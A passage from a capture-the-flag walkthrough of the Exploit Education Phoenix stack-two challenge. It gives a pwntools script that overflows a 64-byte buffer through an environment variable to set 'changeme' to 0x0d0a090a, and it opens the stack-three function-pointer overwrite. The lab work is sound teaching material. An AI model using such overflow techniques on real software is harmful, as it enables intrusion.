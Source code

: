We can see that the stack is built incredibly similar to Stack-Zero (the components we care about in this challenge, at least).
This time, however, `changeme` is being compared with `0xd0a090a`.


![stacktwocuttere2](../Images/PhoenixExploit/stacktwocutter2.JPG)

Again, `pwntools` helps us with environmental variables too.

Final Exploit:
```python
from pwn import * # import everything from pwn

# variables
BUF_LEN = 64 # 64 bytes to reach changeme
win = pack(0x0d0a090a, None, 'little', True) # 0x0d0a090a in little endian is \n\t\n\r

# payload
payload = b'A'*BUF_LEN # padding till changeme
payload += win # changeme

# attach a process
p = process(argv=['./stack-two'], env=dict(ExploitEducation=payload)) # process and set environmental variable ExploitEducation equal our payload

# get a shell
p.interactive()
```

Great success!


![stacktwosuccess](../Images/PhoenixExploit/stacktwosuccess.JPG)

---
### Stack-Three
Stack-Three requires us to overwrite a function pointer to execute the function `complete_level()`.
